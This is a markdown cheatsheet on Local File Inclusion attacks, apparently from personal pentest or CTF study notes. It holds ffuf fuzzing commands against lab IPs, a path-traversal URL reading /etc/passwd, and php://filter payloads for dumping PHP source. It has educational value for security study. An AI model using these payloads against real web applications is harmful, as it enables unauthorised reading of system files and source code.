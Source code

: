 ```yaml
---
title: Cheatsheet - Local File Inclusion (LFI)
categories: [Cheatsheet, Web]
tags: [exploit/file-inclusion/lfi, cheatsheet/web]
img_path: /Cheatsheet/Web/Local File Inclusion/images
---
```


# LFI
## FUZZ it
- Classic LFI
	```
	ffuf -u http://$ip:8593/index?book=../../../../../../..FUZZ -w /usr/share/wordlists/LFI/list.txt -o LFI.txt -fs 376

	# Take note of repeated file size, it could suggest that the LFI did not work
	# fs: filer out response size
	# fw: filter out word number
	```
- ?FUZZ=FUZZ
	```
	ffuf -u http://192.168.56.120/welcome.php?W1=W2 -H "Cookie: PHPSESSID=5911rjjoifufku0hbfkcekm7k7" -w /usr/share/wordlists/SecLists/Discovery/Web-Content/burp-parameter-names.txt:W1 -w /usr/share/wordlists/LFI/file_inclusion_linux.txt:W2 -fw 41
	```

## Basic LFI
```
http://example.com/index.php?page=../../../etc/passwd
```

## PHP Wrapper php://filter
- To be able to view source code `.php` of web application, because the file is encoded, causing browser to not execute the `.php` file allowing us to view it in base64.
- Only works if `include("<file>")`
- Does not if `include("/some/other/path/<file>")`
- [Ippsec HTB Beep - Explanation](https://youtu.be/XJmBpOd__N8?t=1116)
	```
	?page=pHp://FilTer/convert.base64-encode/resource=index
	?page=pHp://FilTer/convert.base64-encode/resource=index
	?page=php://filter/convert.base64-encode/resource=../../../../etc/passwd
	```

